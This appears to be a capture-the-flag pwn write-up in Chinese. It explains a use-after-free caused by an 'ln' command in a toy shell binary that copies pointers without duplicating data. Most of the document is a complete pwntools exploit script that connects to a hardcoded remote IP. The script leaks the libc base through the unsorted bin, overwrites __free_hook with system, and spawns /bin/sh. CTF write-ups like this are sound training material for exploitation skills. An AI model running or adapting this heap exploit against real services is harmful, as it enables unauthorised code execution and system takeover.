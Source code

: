 题目实现了 shell 的一些功能，不过这些我实在没看懂逻辑，不过是混淆所以也无所谓。

![image-20230311120537451](https://cdn.novanoir.moe/img/image-20230311120537451.png)

在 `ln src dest` 这个命令中实现了软连接，不同于 `cp` 的是它直接把 `pointer_arr` 复制了过来，而不是 `malloc` 之后再 `strncpy` 拷贝，在 `rm` 原文件的时候也并没有同时删除这个软连接文件，导致可以实现 UAF



版本是 2.31，直接 Unsorted bin leak libc 后 gedit 打 freehook 即可

exp:

```python
from pwn import *

context(log_level='DEBUG', arch='amd64', os='linux')
context.terminal = "wt.exe nt bash -c".split()

# sh = process(['./sh_v1.1'])
sh = remote("121.40.89.206", 34883)
# libc = ELF('/home/nova/glibc-all-in-one/libs/2.31-0ubuntu9.9_amd64/libc.so.6')

for i in range(9):
    sh.sendlineafter(b'>>>>', f'touch {i}'.encode())
    sh.sendline(chr(i+ord('a'))*0x20)

sh.sendlineafter(b'>>>>', f'ln 1 9'.encode())  # 9 <--> 1
sh.sendlineafter(b'>>>>', f'ln 2 10'.encode())  # 10 <--> 2

for i in range(8,-1,-1):
    sh.sendlineafter(b'>>>>', f'rm {i}'.encode())


sh.sendlineafter(b'>>>>', f'cat 9'.encode())

libc_base = u64(sh.recvuntil(b'\n', drop=True).ljust(8, b'\x00')) - 96 - 0x10 - 0x1ebb70
__free_hook = libc_base + 0x01eeb28
system_addr = libc_base + 	0x055410
print("libc_base >>", hex(libc_base))

sh.sendlineafter(b'>>>>', f'gedit 10'.encode())
# gdb.attach(sh)
# pause(4)
sh.sendline(p64(__free_hook) + p64(0))

sh.sendlineafter(b'>>>>', f'touch 11'.encode())
sh.sendline(b'/bin/sh')

sh.sendlineafter(b'>>>>', f'touch 12'.encode())
sh.sendline(p64(system_addr))

sh.sendlineafter(b'>>>>', f'rm 11'.encode())
sh.interactive()
```

